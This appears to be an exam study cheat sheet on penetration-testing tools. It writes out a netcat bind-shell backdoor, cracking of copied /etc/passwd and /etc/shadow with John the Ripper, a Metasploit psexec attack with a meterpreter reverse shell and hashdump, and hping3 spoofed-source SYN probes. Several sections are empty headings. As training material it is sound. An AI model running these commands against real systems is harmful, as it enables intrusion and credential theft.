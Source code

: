 # Common Tools

## Exam Outcome

Demonstrate competence with common tools including netcat, SSH, Ettercap, p0f, etc...

### netcat

Setting up a Listener:

```
nc -l -p [port]
nc -l -p [2222]
```

Connecting to the Listener:

```
nc [ip_of_listener] [port]
nc 10.10.75.75 2222
```

Create Backdoor on Linux:

```
nc -l [port] -e /bin/sh
nc -l 7777 -e /bin/sh
```

Connect to the backdoor:

```
nc.exe [ip_of_listener] [port]
nc.exe 10.10.75.75 7777
```

### SSH

### Ettercap

### p0f

### John the Ripper

John the Ripper is essentially a password cracking tool.  You can utilize John the Ripper to perform password cracking once you've retrieved password hashes from a target.

First, you need to combine the passwd and shadow files (from a Linux machine).  The following examples assumes you've taken a copy of /etc/passwd and /etc/shadow and moved them to the /tmp directory:

```
./unshadow /tmp/passwd_copy /tmp/shadow_copy > /tmp/combined
```

Running John is trival:

```
./john /tmp/combined
```

### Metasploit

Starting Metasploit:

```
msfconsole
```

Listing Exploits:

```
show exploits
```

Searching Exploits:

```
search type:exploit psexec
```

Acquiring Info on an Exploit:

```
info exploit/windows/smb/psexec
```

Selecting an Exploit to Use:

```
use exploit/windows/smb/psexec
```

Configuring Exploit Settings:

```
set PAYLOAD windows/meterpreter/reverse_tcp
```

Showing Options:

```
show options
```

Configuring Variables:

```
set RHOST [Target IP]
set SMBUser [username]
set SMBPass [password]
set LHOST [source/attacker IP]
```

Launching Exploit:

```
exploit
```

Backgrounding a Session:

```
background
```

Listing Sessions:

```
sessions -l
```

```
sessions -i [session #]
```

Popular Meterpreter Commands:

```
?
sysinfo
getuid
pwd
getpid
ps
hashdump
run hashdump
```

### Volatility

Getting usage and help

```
python vol.py -h
```

Getting process list:

```
python vol.py pslist -f /path/to/memory/dump/mem.dd --profile=Win7SP0x86
```

### Hping3
Hping3 is a command-line packet analyzer that supports the TCP, UDP, ICMP, and RAW-IP protocols.

```
hping3 --help
```

Running hping3 with TCP SYN flags:

```
hping3 -S [IP address]
```

Running hping3 with TCP SYNC flags and a spoofed source address:

```
hping3 [IP Address] -a [spoofed IP] -S
```





### etc...

